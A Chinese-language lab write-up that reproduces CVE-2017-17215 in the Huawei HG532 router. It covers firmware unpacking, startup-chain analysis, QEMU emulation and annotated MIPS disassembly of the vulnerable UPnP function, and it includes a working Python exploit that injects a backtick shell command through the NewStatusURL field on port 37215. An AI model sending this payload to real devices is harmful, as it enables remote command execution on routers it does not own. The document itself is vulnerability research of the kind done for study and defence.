

# upnp漏洞复现-华为HG532

华为HG532路由器命令注入漏洞分析(CVE-2017-17215)

固件：[huawei-upnp.tar](vx_attachments/445763378603827/huawei-upnp.tar)

# 1、信息收集

## 1.1、基础信息收集
### binwalk

    binwalk HG532eV100R001C01B020_upgrade_packet.bin     


我们看到这个固件的文件系统是Squashfs 
接下来就直接进行解包


    binwalk -Me HG532eV100R001C01B020_upgrade_packet.bin


### 
### checksec&file

    file busybox
    checksec busybox/checksec --file=busybox


我们看到这个固件的架构为mips、32位、大端。没有开启栈保护（cannary）、PIE（地址无关代码）
在这里我们看到我们并没有办法确定NX是否打开了。

### readelf

    readelf -l busybox | grep GNU_STACK


我们通过readelf -l 具体查看这个的NX是否打开
如果输出中包含 GNU_STACK 段，查看其权限字段。如果是 RWE，表示堆栈是可执行的，若是 R，则表示不可执行。


我们发现这个文件的权限字段是：RWE，也就是堆栈可执行，也就是没有开NX。


## 1.2、启动项分析

### firmwalker

    sudo ./firmwalker-pro-max.sh /home/iot/Desktop/gujian/huawei/backward-analysis/CVE-2017-17215/_HG532eV100R001C01B020_upgrade_packet.bin.extracted/squashfs-root


我们看到这个固件的web服务为mic

### web服务的启动过程分析

#### inittab

    # 系统初始化阶段执行的脚本
    ::sysinit:/etc/init.d/rcS
    # 在终端上启动一个 shell，并在其终止时重启
    ::respawn:-/bin/sh

    # 这行是注释，表示在 tty2 设备上启动时提示用户输入并运行 shell
    # tty2::askfirst:-/bin/sh

    # 这行是注释，表示如果用户按下 Ctrl+Alt+Del，将执行卸载所有文件系统并重启
    # ::ctrlaltdel:/bin/umount -a -r

我们看到这个文件启动了/etc/init.d/rcS文件

#### rcS文件

    #!/bin/sh
    # 指定脚本使用的解释器为 /bin/sh

    /bin/echo "rcs"
    # 打印 "rcs" 到标准输出

    PATH=/sbin:/bin:/usr/bin:/usr/sbin
    # 设置 PATH 环境变量，指定可执行文件的搜索路径

    export PATH
    # 导出 PATH 变量，使其在子进程中可用

    echo "RCS DONE"
    # 打印 "RCS DONE" 到标准输出


我们发现这个脚本并没有启动我们的web服务mic
我们再回到最开始，去分析init这个可执行文件，因为最开始启动的就是init这个程序，是它启动后再去读取的etc/inittab文件

#### 可执行文件init

    ls -al


我们发现这个init文件就是个软链接，链接的是bin/busybox

我们通过IDA打开这个二进制文件，对'mic'进行检索


发现并没有关于web服务mic的启动的相关代码。
于是我们返回到固件对mic进行检索

    grep -ir "mic"


我们发现再etc/profile文件里面有一个类似我们之前遇到的像是rcS文件中遇到的启动程序的格式
我们对上述的文件进行分析

#### profile文件

```
# /etc/profile: system-wide .profile file for the Bourne shells
# 系统范围的 .profile 文件，用于 Bourne Shell

PATH=/bin:/sbin:/usr/bin
# 设置可执行文件的搜索路径

export PATH
# 导出 PATH 变量，使其在子进程中可用

swapdev
# 执行 swapdev 命令，可能用于交换设备的初始化

startbsp
# 启动 BSP（板级支持包）

echo 32 > /proc/sys/kernel/msgmni
# 设置系统可用的消息队列标识符的数量

# 如果 atserver 存在，则在后台启动
test -e /bin/atserver && atserver &
# 如果 usbdiagd 存在，则在后台启动
test -e /bin/usbdiagd && usbdiagd &

echo "Loading drivers and kernel modules... "
# 打印信息，表示正在加载驱动程序和内核模块

# 清空 DHCP 租约文件
echo > /var/dhcp/dhcps/leases
echo > /var/dhcp/dhcps/leasesF

# 配置回环接口
ifconfig lo 127.0.0.1 netmask 255.0.0.0 broadcast 127.255.255.255 up

mkdir /var/Wireless
# 创建无线网络配置目录
cp /etc/Wireless/RT2860AP/RT2860AP.dat /var/Wireless/RT2860AP.dat
# 复制 RT2860AP 配置文件

mknod /var/fuse c 10 229
# 创建设备节点用于 FUSE
chmod a+rw /var/fuse
# 设置设备节点权限

# 加载必要的内核模块
test -e /lib/extra/tc3162_dmt.ko && insmod /lib/extra/tc3162_dmt.ko
test -e /lib/extra/rt5392ap.ko && insmod /lib/extra/rt5392ap.ko

# 添加对中文字符集和 NTFS/FAT 文件系统的支持
test -e /lib/kernel/fs/fat/fat.ko && insmod /lib/kernel/fs/fat/fat.ko
test -e /lib/kernel/fs/vfat/vfat.ko && insmod /lib/kernel/fs/vfat/vfat.ko
test -e /lib/kernel/fs/ntfs/ntfs.ko && insmod /lib/kernel/fs/ntfs/ntfs.ko
test -e /lib/kernel/fs/nls/nls_cp936.ko && insmod /lib/kernel/fs/nls/nls_cp936.ko

# 加载特定硬件的内核模块
test -e /lib/kernel/arch/mips/rt2880/lm.ko && insmod /lib/kernel/arch/mips/rt2880/lm.ko
test -e /lib/kernel/arch/mips/rt2880/rt_timer.ko && insmod /lib/kernel/arch/mips/rt2880/rt_timer.ko
test -e /lib/kernel/drivers/usb/serial/option.ko && insmod /lib/kernel/drivers/usb/serial/option.ko
test -e /lib/kernel/fs/fuse/fuse.ko && insmod /lib/kernel/fs/fuse/fuse.ko
test -e /lib/extra/dwc_otg.ko && insmod /lib/extra/dwc_otg.ko
test -e /lib/extra/ralink_gdma.ko && insmod /lib/extra/ralink_gdma.ko
test -e /lib/extra/rt2860v2_ap.ko && insmod /lib/extra/rt2860v2_ap.ko

# 发送命令到特定的设备
echo "wan ghs set annex al" > /proc/tc3162/tcci_cmd
echo "wan dmt db tlb 2" > /proc/tc3162/tcci_cmd
echo "wan ghs set multi_number 3 3" > /proc/tc3162/tcci_cmd
echo "wan dmt2 set largeD 2" > /proc/tc3162/tcci_cmd
echo "wan dmt eoc dyingasp off" > /proc/tc3162/tcci_cmd
echo "wan dmt2 set lpr off" > /proc/tc3162/tcci_cmd
echo "wan dmt2 set pmonoff off" > /proc/tc3162/tcci_cmd
echo "wan dmt2 set olr 2" > /proc/tc3162/tcci_cmd

# TCSUPPORT__RA_HWNAT BEGIN
ifconfig eth0 up
# 启用 eth0 接口
test -e /lib/extra/hw_nat.ko && insmod /lib/extra/hw_nat.ko
# 加载硬件 NAT 模块
# TCSUPPORT__RA_HWNAT END

test -e /lib/extra/brg_shortcut.ko && insmod /lib/extra/brg_shortcut.ko

# ethcmd eth0 0.0.0.0
# ethcmd eth0 vlanpt enable
ethcmd eth0 lanchip disable
# 禁用 lanchip 功能

ethcmd miiw 4 0 1800
# 设置以太网接口参数
atmcmdd &
# 启动 ATM 命令
tcwdog -t 1 /dev/watchdog &
# 启动看门狗定时器
mic
# 执行 mic 命令

echo "Done"
# 打印 "Done"，表示脚本执行完毕

```


我们发现这个文件就是存在关于启动web服务mic的内容
那么又是怎么调用的这个文件呢

我们上面的分析知道，所有初始化启动，都只是启动了busybox文件，那么我们在busybox里面查找profile文件


我们发现在这个函数里面调用了这个文件

我们往上追溯


我们发现我们的函数被存在一个全局变量里面，在往上追溯看看谁调用了这个全局变量


我们发现了这个函数调用了这个全局变量，并且是以a1为参数进行调用，我们再往上追


我们发现是这个函数传进了一个V3的参数，这个参数是函数sub_405808()的返回结果，对于这个简单分析以后，发现这个函数是通过二分查找的方式对传进来的值在全局变量上进行校验，猜测是防止而已的溢出使得程序执行了错误的启动。

我们再看这个函数本身，我们通过调用分析发现除了主函数main()函数进行了调用意外，就只有这个函数本身调用


因为没有符号表的缘故，这里猜测是该函数通过递归的方式进行各个服务的启动


#### 总结

##### 在这里对于这个启动项的启动流程进行总体过程的总结：
第一步：程序启动了init ---> busybox
第二步：busybox运行了profile文件
第三步：profile文件启动了我们的web服务mic


##### 对busybox的调用profile文件的流程进行总体总结：

注意：下面的流程函数参数进行了简写，具体请看源码

main()--->sub_405AC0()（递归调用自己）--->sub_4059D0(v3)--->off_450C7C[a1]-->sub_41CD68()--->.profile


关于upnp的启动项


# 2、qemu-system模拟

## 2.1、配置主机网卡（linux）

    sudo tunctl -t tap0 -u `whoami`
    sudo ifconfig tap0 192.168.0.1/24 up


## 2.2、启动虚拟机

这连个命令都可以，只不过第二个需要自己在qemu虚拟机配置一个br0网卡


    sudo qemu-system-mips -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -netdev tap,id=tapnet,ifname=tap0,script=no -device rtl8139,netdev=tapnet -nographic


    sudo qemu-system-mips -M malta -kernel ./vmlinux-3.2.0-4-4kc-malta -hda ./debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic




配置qemu虚拟机网卡：

    ifconfig
    ifconfig eth0 192.168.0.2/24 up
    ping 192.168.0.1


## 2.3、启动固件

打包固件并传输解包

    tar -zcvf sroot.tar.gz squashfs-root/


开启服务传输压缩包

    python -m SimpleHTTPServer


qemu-system通过wget获取到压缩包：

    wget http://192.168.0.1:8000/sroot.tar.gz


解压缩：

    tar -zxvf sroot.tar.gz


挂载目录，并且切换根目录

    mount --bind /proc/ proc/
    mount --bind /dev/ dev/
    mount --bind /sys/ sys/
    chroot . sh

一般都是挂载这三个


ssh链接我们的qemu-system虚拟机

    sudo ssh root@192.168.0.2


启动web服务mic和upnp服务

然后我们发现它又自己创建了一个br0网卡，


程序运行会显示卡在这里
重新给eth0和br0配置ip


    ifconfig eth0 192.168.0.2/24 up
    ifconfig br0 192.168.0.3/24 up
    


然后访问我们的web界面

在火狐浏览器访问会显示错误,把图中的这两个值改一下就好了


# 3、漏洞分析

## 3.1、exp

```
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>`./bin/busybox echo longlong > longlong.txt`</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://192.168.0.3:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
```

## 3.2、漏洞分析

我们看到exp里面带命令的标签为NewStatusURL，在upnp这个二进制文件进行查找


我们看到了这个命令执行点

试一下exp

    python exp.py 


我们发现命令是执行成功的


# 4、汇编分析

```plaintext
**************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined FUN_0040749c()
                               assume gp = 0x42e470
```
- **函数声明**：这是一个名为 `FUN_0040749c` 的函数的开始，假定全局指针 (`gp`) 的值为 `0x42e470`。

```plaintext
             undefined         v0:1           <RETURN>
```
- **返回值**：指示该函数在寄存器 `v0` 中返回一个值。

```plaintext
             undefined4        Stack[-0x4]:4  local_4                                 XREF[2]:     004074a8(W), 
```
- **局部变量**：声明一个局部变量 `local_4`，存储在栈偏移 `-0x4` 的位置。

```plaintext
             undefined4        Stack[-0x8]:4  local_8                                 XREF[2]:     004074ac(W), 
```
- **局部变量**：声明另一个局部变量 `local_8`，存储在栈偏移 `-0x8` 的位置。

```plaintext
             undefined4        Stack[-0xc]:4  local_c                                 XREF[2]:     004074b0(W), 
```
- **局部变量**：声明局部变量 `local_c`，存储在栈偏移 `-0xc` 的位置。

```plaintext
             undefined4        Stack[-0x414   local_414                               XREF[1]:     00407518(R)
```
- **局部变量**：声明 `local_414`，存储在栈偏移 `-0x414` 的位置。

```plaintext
             undefined4        Stack[-0x418   local_418                               XREF[2]:     004074e4(R), 
```
- **局部变量**：声明 `local_418`，存储在栈偏移 `-0x418` 的位置。

```plaintext
             undefined4        Stack[-0x420   local_420                               XREF[5]:     004074b4(W), 
```
- **局部变量**：声明 `local_420`，存储在栈偏移 `-0x420` 的位置。

```plaintext
             undefined4        Stack[-0x428   local_428                               XREF[1]:     00407544(W)  
```
- **局部变量**：声明 `local_428`，存储在栈偏移 `-0x428` 的位置。

```plaintext
        0040749c 3c 1c 00 43     lui        gp,0x43
```
- **加载上半部**：将常量 `0x43` 加载到 `gp` 的上半部分。

```plaintext
        004074a0 27 bd fb c8     addiu      sp,sp,-0x438
```
- **调整栈指针**：将栈指针 `sp` 减去 `0x438`，为局部变量分配空间。

```plaintext
        004074a4 27 9c e4 70     addiu      gp,gp,-0x1b90
```
- **调整全局指针**：将全局指针 `gp` 减去 `0x1b90`。

```plaintext
        004074a8 af bf 04 34     sw         ra,local_4(sp)
```
- **保存返回地址**：将返回地址 `ra` 保存到 `local_4`。

```plaintext
        004074ac af b1 04 30     sw         s1,local_8(sp)
```
- **保存寄存器**：将寄存器 `s1` 保存到 `local_8`。

```plaintext
        004074b0 af b0 04 2c     sw         s0,local_c(sp)
```
- **保存寄存器**：将寄存器 `s0` 保存到 `local_c`。

```plaintext
        004074b4 af bc 00 18     sw         gp=>_gp,local_420(sp)
```
- **保存全局指针**：将全局指针 `_gp` 保存到 `local_420`。

```plaintext
        004074b8 8f 99 80 f4     lw         t9,-0x7f0c(gp)=>->ATP_XML_GetChildNodeByName     = 00409f40
```
- **加载函数指针**：从全局指针加载 `ATP_XML_GetChildNodeByName` 函数地址到 `t9`。

```plaintext
        004074bc 00 80 80 21     move       s0,a0
```
- **移动参数**：将 `a0` 的值移动到 `s0`。

```plaintext
        004074c0 8c 84 00 2c     lw         a0,0x2c(a0)
```
- **加载数据**：从 `a0` 偏移 `0x2c` 处加载数据到 `a0`。

```plaintext
        004074c4 3c 05 00 41     lui        a1,0x41
```
- **加载上半部**：将常量 `0x41` 加载到 `a1` 的上半部分。

```plaintext
        004074c8 24 a5 4c 40     addiu      a1=>s_NewDownloadURL_00414c40,a1,0x4c40          = "NewDownloadURL"
```
- **设置字符串**：将 `NewDownloadURL` 字符串地址设置到 `a1`。

```plaintext
        004074cc 00 00 30 21     clear      a2
```
- **清零**：将 `a2` 清零。

```plaintext
        004074d0 03 20 f8 09     jalr       t9=>ATP_XML_GetChildNodeByName                   undefined ATP_XML_GetChildNodeBy
```
- **调用函数**：调用 `ATP_XML_GetChildNodeByName` 函数。

```plaintext
        004074d4 27 a7 00 20     addiu      a3,sp,0x20
```
- **设置参数**：将栈指针加 `0x20` 的地址设置到 `a3`。

```plaintext
        004074d8 8f bc 00 18     lw         gp,local_420(sp)
```
- **恢复全局指针**：从 `local_420` 恢复全局指针 `gp`。

```plaintext
        004074dc 14 40 00 21     bne        v0,zero,LAB_00407564
```
- **条件跳转**：如果 `v0` 不为零，则跳转到 `LAB_00407564`。

```plaintext
        004074e0 00 40 88 21     move       s1,v0
```
- **保存返回值**：将 `v0` 的值移动到 `s1`。

```plaintext
        004074e4 8f a2 00 20     lw         v0,local_418(sp)
```
- **加载局部变量**：从 `local_418` 加载值到 `v0`。

```plaintext
        004074e8 00 00 00 00     nop
```
- **空操作**：执行一个空操作。

```plaintext
        004074ec 10 40 00 1d     beq        v0,zero,LAB_00407564
```
- **条件跳转**：如果 `v0` 为零，则跳转到 `LAB_00407564`。

```plaintext
        004074f0 3c 05 00 41     lui        a1,0x41
```
- **加载上半部**：将常量 `0x41` 加载到 `a1` 的上半部分。

```plaintext
        004074f4 8f 99 80 f4     lw         t9,-0x7f0c(gp)=>->ATP_XML_GetChildNodeByName     = 00409f40
```
- **加载函数指针**：从全局指针加载 `ATP_XML_GetChildNodeByName` 函数地址到 `t9`。

```plaintext
        004074f8 8e 04 00 2c     lw         a0,0x2c(s0)
```
- **加载数据**：从 `s0` 偏移 `0x2c` 处加载数据到 `a0`。

```plaintext
        004074fc 24 a5 4c 50     addiu      a1=>s_NewStatusURL_00414c50,a1,0x4c50            = "NewStatusURL"
```
- **设置字符串**：将 `NewStatusURL` 字符串地址设置到 `a1`。

```plaintext
        00407500 00 00 30 21     clear      a2
```
- **清零**：将 `a2` 清零。

```plaintext
        00407504 03 20 f8 09     jalr       t9=>ATP_XML_GetChildNodeByName                   undefined ATP_XML_GetChildNodeBy
```
- **调用函数**：再次调用 `ATP_XML_GetChildNodeByName` 函数。

```plaintext
        00407508 27 a7 00 24     addiu      a3,sp,0x24
```
- **设置参数**：将栈指针加 `0x24` 的地址设置到 `a3`。

```plaintext
        0040750c 8f bc 00 18     lw         gp,local_420(sp)
```
- **恢复全局指针**：从 `local_420` 恢复全局指针 `gp`。

```plaintext
        00407510 14 40 00 14     bne        v0,zero,LAB_00407564
```
- **条件跳转**：如果 `v0` 不为零，则跳转到 `LAB_00407564`。

```plaintext
        00407514 00 40 88 21     move       s1,v0
```
- **保存返回值**：将 `v0` 的值移动到 `s1`。

```plaintext
        00407518 8f a2 00 24     lw         v0,local_414(sp)
```
- **加载局部变量**：从 `local_414` 加载值到 `v0`。

```plaintext
        0040751c 00 00 00 00     nop
```
- **空操作**：执行一个空操作。

```plaintext
        00407520 10 40 00 10     beq        v0,zero,LAB_00407564
```
- **条件跳转**：如果 `v0` 为零，则跳转到 `LAB_00407564`。

```plaintext
        00407524 27 b0 00 28     addiu      s0,sp,0x28
```
- **设置参数**：将栈指针加 `0x28` 的地址设置到 `s0`。

```plaintext
        00407528 8f 99 82 84     lw         t9,-0x7d7c(gp)=>-><EXTERNAL>::snprintf           = 00413da0
```
- **加载函数指针**：从全局指针加载 `snprintf` 函数地址到 `t9`。

```plaintext
        0040752c 8f a7 00 20     lw         a3,local_418(sp)
```
- **加载局部变量**：从 `local_418` 加载值到 `a3`。

```plaintext
        00407530 3c 06 00 41     lui        a2,0x41
```
- **加载上半部**：将常量 `0x41` 加载到 `a2` 的上半部分。

```plaintext
        00407534 24 c6 4c 60     addiu      a2=>s_upg_-g_-U_%s_-t_'1_Firmware_Upgr_00414c6   = "upg -g -U %s -t '1 Firmware U
```
- **设置字符串**：将格式字符串设置到 `a2`。

```plaintext
        00407538 02 00 20 21     move       a0,s0
```
- **移动参数**：将 `s0` 的值移动到 `a0`。

```plaintext
        0040753c 24 05 04 00     li         a1,0x400
```
- **加载常量**：将常量 `0x400` 加载到 `a1`。

```plaintext
        00407540 03 20 f8 09     jalr       t9=><EXTERNAL>::snprintf                         int snprintf(char * __s, size_t 
```
- **调用函数**：调用 `snprintf` 函数。

```plaintext
        00407544 af a2 00 10     sw        v0,local_428(sp)
```
- **保存返回值**：将 `snprintf` 的返回值保存到 `local_428`。

```plaintext
        00407548 8f bc 00 18     lw         gp,local_420(sp)
```
- **恢复全局指针**：从 `local_420` 恢复全局指针 `gp`。

```plaintext
        0040754c 00 00 00 00     nop
```
- **空操作**：执行一个空操作。

```plaintext
        00407550 8f 99 83 34     lw         t9,-0x7ccc(gp)=>-><EXTERNAL>::system             = 00413c00
```
- **加载函数指针**：从全局指针加载 `system` 函数地址到 `t9`。

```plaintext
        00407554 00 00 00 00     nop
```
- **空操作**：执行一个空操作。

```plaintext
        00407558 03 20 f8 09     jalr       t9=><EXTERNAL>::system                           int system(char * __command)
```
- **调用函数**：调用 `system` 函数。

```plaintext
        0040755c 02 00 20 21     move      a0,s0
```
- **移动参数**：将 `s0` 的值移动到 `a0`。

```plaintext
        00407560 8f bc 00 18     lw         gp,local_420(sp)
```
- **恢复全局指针**：从 `local_420` 恢复全局指针 `gp`。

```plaintext
                             LAB_00407564                                    XREF[4]:     004074dc(j), 004074ec(j), 
```
- **标签**：定义一个标签 `LAB_00407564`，用于跳转。

```plaintext
        00407564 8f bf 04 34     lw         ra,local_4(sp)
```
- **恢复返回地址**：从 `local_4` 恢复返回地址 `ra`。

```plaintext
        00407568 02 20 10 21     move       v0,s1
```
- **设置返回值**：将 `s1` 的值移动到 `v0` 作为返回值。

```plaintext
        0040756c 8f b1 04 30     lw         s1,local_8(sp)
```
- **恢复寄存器**：从 `local_8` 恢复寄存器 `s1`。

```plaintext
        00407570 8f b0 04 2c     lw         s0,local_c(sp)
```
- **恢复寄存器**：从 `local_c` 恢复寄存器 `s0`。

```plaintext
        00407574 03 e0 00 08     jr         ra
```
- **返回**：跳转到返回地址 `ra`，结束函数。

```plaintext
        00407578 27 bd 04 38     addiu      sp,sp,0x438
```
- **恢复栈指针**：将栈指针 `sp` 加回 `0x438`，清理栈空间。


这些条件判断失败就会跳入函数的末尾return iVar1;


